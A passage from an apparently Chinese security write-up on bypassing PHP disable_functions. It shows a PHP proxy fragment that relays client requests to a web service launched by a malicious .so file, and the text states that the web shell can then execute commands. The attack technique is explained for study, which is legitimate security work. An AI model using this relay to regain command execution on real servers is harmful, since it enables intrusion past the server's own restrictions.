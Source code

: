 ```bash
if (!empty($_SERVER['CONTENT_TYPE'])) {
    $out .= "Content-Type: ".$_SERVER['CONTENT_TYPE']."\r\n";
}
$out .= "Content-length:".strlen($post_data)."\r\n";

$out .= implode("\r\n",$headers);
$out .= "\r\n\r\n";
$out .= "".$post_data;

fputs($fp, $out);

$response = '';
while($row=fread($fp, 4096)){
    $response .= $row;
}
fclose($fp);
$pos = strpos($response, "\r\n\r\n");
$response = substr($response, $pos+4);
echo $response;
```

这个脚本把客户端提交的数据转发到了恶意 so 建立的新 web 服务，并接收 response 返回给客户端

由于恶意 so 建立的 web 服务不使用 php.ini，这就绕过了 disable\_functions

我们修改 shell 地址进行连接，此时已经可以正常执行命令

[![](assets/1708920000-3e230d0fc70f7cc26a16823c54d1b723.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240212220924940.png)
